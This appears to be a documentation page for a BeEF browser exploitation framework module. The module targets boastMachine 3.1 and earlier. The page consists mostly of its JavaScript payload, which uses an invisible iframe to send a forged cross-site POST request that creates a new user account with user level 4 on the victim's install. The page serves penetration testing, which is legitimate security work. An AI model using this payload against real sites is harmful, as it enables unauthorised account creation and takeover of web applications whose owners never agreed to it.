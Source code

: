 ## Summary

* **Objective**: add a user to a boastMachine <= 3.1 install
* **Authors**: bcoles, Dr.NaNo
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/boastmachine_3_1_add_user_csrf)

## Internal Working

Uses an invisible iframe with a POST request to add a user

```js
var base     = '<%= @base %>';
var username = '<%= @username %>';
var password = '<%= @password %>';
var email    = '<%= @email %>';

var boastmachine_iframe = beef.dom.createIframeXsrfForm(base, "POST", "application/x-www-form-urlencoded", [
        {'type':'hidden', 'name':'action',     'value':'add_user'},
        {'type':'hidden', 'name':'do',         'value':'add'},
        {'type':'hidden', 'name':'user_login', 'value':username},
        {'type':'hidden', 'name':'user_pass',  'value':password},
        {'type':'hidden', 'name':'user_name',  'value':username},
        {'type':'hidden', 'name':'user_email', 'value':email},
        {'type':'hidden', 'name':'blogs[]',    'value':'4'},
        {'type':'hidden', 'name':'user_level', 'value':'4'},
]);
```

## Feedback

